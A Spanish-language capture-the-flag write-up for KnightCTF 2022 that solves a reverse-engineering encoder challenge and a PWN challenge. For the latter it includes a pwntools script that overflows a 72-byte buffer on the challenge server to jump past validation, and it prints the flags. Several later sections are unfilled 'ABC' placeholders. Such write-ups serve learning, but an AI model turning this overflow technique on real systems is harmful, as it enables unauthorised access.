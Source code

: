 ```yaml
---
title: KnightCTF 2022
published: true
---
```


KnightCTF 2022, es el primer _capture de flag_ organizado por [Knight Squad](https://knightsquad.org/), este es de tipo _jeopardy_, por lo que encontraremos distintas categorias.

<div style="text-align:center">
  <img src="https://raw.githubusercontent.com/MateoNitro550/MateoNitro550.github.io/master/assets/2022-01-17-KnightCTF-2022/1.png">
</div>

### [](#header-3)Reverse Engineering

#### [](#header-4)The Encoder

![](https://raw.githubusercontent.com/MateoNitro550/MateoNitro550.github.io/master/assets/2022-01-17-KnightCTF-2022/2.png)

Al extraer y ejecutar el binario, [the_encoder.out](https://raw.githubusercontent.com/MateoNitro550/MateoNitro550.github.io/master/assets/2022-01-17-KnightCTF-2022/the_encoder.zip), vamos a darnos cuenta que nos pregunta por una cadena de caracteres; si introducimos cualquier caracter, el binario nos devolverá un valor bastante similar a los que encontramos en el enunciado del reto.

![](https://raw.githubusercontent.com/MateoNitro550/MateoNitro550.github.io/master/assets/2022-01-17-KnightCTF-2022/3.png)

Por otra parte, podemos darnos cuenta que si introducimos caracteres consecutivos, el valor que nos devuelve también lo es, esto ya nos da una posible idea de por donde van los tiros.

![](https://raw.githubusercontent.com/MateoNitro550/MateoNitro550.github.io/master/assets/2022-01-17-KnightCTF-2022/4.png)

_Podemos consultar una tabla de código ASCII, para saber en que orden van los caracteres, y así simplificar las cosas._

![](https://raw.githubusercontent.com/MateoNitro550/MateoNitro550.github.io/master/assets/2022-01-17-KnightCTF-2022/5.png)

```
KCTF{s1Mpl3_3Nc0D3r_1337}
```

### [](#header-3)PWN

#### [](#header-4)What's Your Name

![](https://raw.githubusercontent.com/MateoNitro550/MateoNitro550.github.io/master/assets/2022-01-17-KnightCTF-2022/6.png)

Al extraer y ejecutar el binario, [whats_your_name](https://raw.githubusercontent.com/MateoNitro550/MateoNitro550.github.io/master/assets/2022-01-17-KnightCTF-2022/whats_your_name.zip), vamos a darnos cuenta que nos pregunta por un nombre; si introducimos cualquier cadena de caracteres, el binario nos devolverá un mensaje de bienvenida.

![](https://raw.githubusercontent.com/MateoNitro550/MateoNitro550.github.io/master/assets/2022-01-17-KnightCTF-2022/7.png)

Si introducimos una cadena de caracteres lo suficientemente larga, conseguiremos un `Segmentation Fault`, lo cual nos da la idea de un posible `Buffer Overflow`.

![](https://raw.githubusercontent.com/MateoNitro550/MateoNitro550.github.io/master/assets/2022-01-17-KnightCTF-2022/8.png)

Podemos empezar a depurar el binario con `GEF`, tal y como lo hicimos en la máquina [Safe](https://mateonitro550.github.io/Safe-Hack-The-Box) de _Hack The Box_, y nos daremos cuenta que el _buffer_ tiene una longitud de _72 bytes_.

![](https://raw.githubusercontent.com/MateoNitro550/MateoNitro550.github.io/master/assets/2022-01-17-KnightCTF-2022/9.png)

Ya con esto en mente, podemos analizar el binario con `Ghidra`, y nos daremos cuenta que dentro de la función `main`, después de hacer una serie de validaciones, se está ejecutando un `cat` al archivo `/home/hacker/flag.txt`.

![](https://raw.githubusercontent.com/MateoNitro550/MateoNitro550.github.io/master/assets/2022-01-17-KnightCTF-2022/10.png)

De modo que si apuntamos a esta dirección, omitiremos toda la validación y conseguiremos listar la flag; para ello, haremos un script bastante similar al de la máquina [Safe](https://mateonitro550.github.io/Safe-Hack-The-Box) de _Hack The Box_.

```python 
#!/usr/bin/python3

from pwn import *

context.terminal = ['gnome-terminal', '-x']
context.arch = 'amd64'
context.os = 'linux'

p = remote("198.211.115.81", 10001)

flag = p64(0x4011d3)

junk = ("A"*72).encode()

p.sendline(junk + flag)

p.interactive()
```

```
KCTF{bAbY_bUfF3r_0v3Rf1Ow}
```

### [](#header-3)Misc

ABC

### [](#header-3)OSINT

ABC

### [](#header-3)Steganography

ABC

### [](#header-3)Networking

ABC

### [](#header-3)Digital Forensics

ABC
